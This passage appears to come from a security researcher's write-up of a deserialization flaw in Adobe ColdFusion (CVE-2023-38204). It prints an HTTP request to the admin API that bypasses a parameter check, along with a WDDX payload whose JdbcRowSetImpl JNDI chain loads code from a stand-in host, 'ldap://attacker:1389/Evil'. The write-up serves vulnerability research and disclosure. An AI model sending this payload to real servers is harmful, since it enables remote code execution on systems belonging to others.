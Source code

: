 [![pPPhxyT.png](https://s1.ax1x.com/2023/08/02/pPPhxyT.png)](https://imgse.com/i/pPPhxyT)

There is an `if` condition here that checks if the `method` parameter is not passed. If the `method` parameter is missing, it will prematurely return a 302 response, cutting off our attack path.

Therefore, we also need to include the `method` parameter in our request.

```
POST /CFIDE/adminapi/base.cfc?method HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 365
Content-Type: application/x-www-form-urlencoded

argumentCollection=/* payload */
```

This way, we can bypass the `if` condition and call the `GetArgumentCollection()` method to pass the serialized malicious data to the server.

# 0x04 Exploitation

Therefore, drawing a parallel with FastJson, it is conceivable to construct a JNDI exploitation chain by invoking the `setDataSourceName` and `setAutoCommit` setter methods of the `JdbcRowSetImpl` class. This exploitation chain is assigned the CVE number CVE-2023-38204.

```xml
<wddxPacket version='1.0'>
    <header/>
    <data>
        <struct type='xcom.sun.rowset.JdbcRowSetImplx'>
            <var name='dataSourceName'>
                <string>ldap://attacker:1389/Evil</string>
            </var>
            <var name='autoCommit'>
                <boolean value='true'/>
            </var>
        </struct>
    </data>
</wddxPacket>
```

[![pPP4pmF.png](https://s1.ax1x.com/2023/08/02/pPP4pmF.png)](https://imgse.com/i/pPP4pmF)

We noticed that there are numerous JAR files in the WEB-INF/bundles and its subfolders, including the "repo" directory. Based on the assumption that "existence implies reasonableness," we added all JAR files to the working environment. With this setup, we continued exploring new exploitation chains and successfully developed a new limited exploitation method.

# 0x05 Vulnerability Timeline
